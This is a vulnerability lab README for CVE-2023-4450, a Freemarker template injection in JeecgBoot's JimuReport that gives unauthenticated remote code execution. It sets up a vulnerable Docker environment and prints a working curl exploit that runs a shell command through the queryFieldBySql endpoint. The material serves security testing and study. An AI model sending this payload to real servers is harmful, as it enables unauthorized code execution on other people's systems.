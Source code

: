 # JeecgBoot JimuReport Template injection (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JeecgBoot is an open source low-code development platform, Jimureport is one of the low code Report component.

An issue was discovered in Jimureport lower than 1.6. An unauthorized api called `/jmreport/queryFieldBySql` led to remote arbitrary code execution due to parsing SQL statements using Freemarker.

References:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## Vulnerable Environment

Execute following command to start a JeecgBoot site 3.5.3:

```
docker compose up -d
```

You can access the JimuReport website through `http://your-ip:8080/jeecg-boot/jmreport/list` after the server is started.

## Exploit

send freemarker payload with sql parameter through `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql`

```bash
curl --location 'http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}'
```

![](1.png)
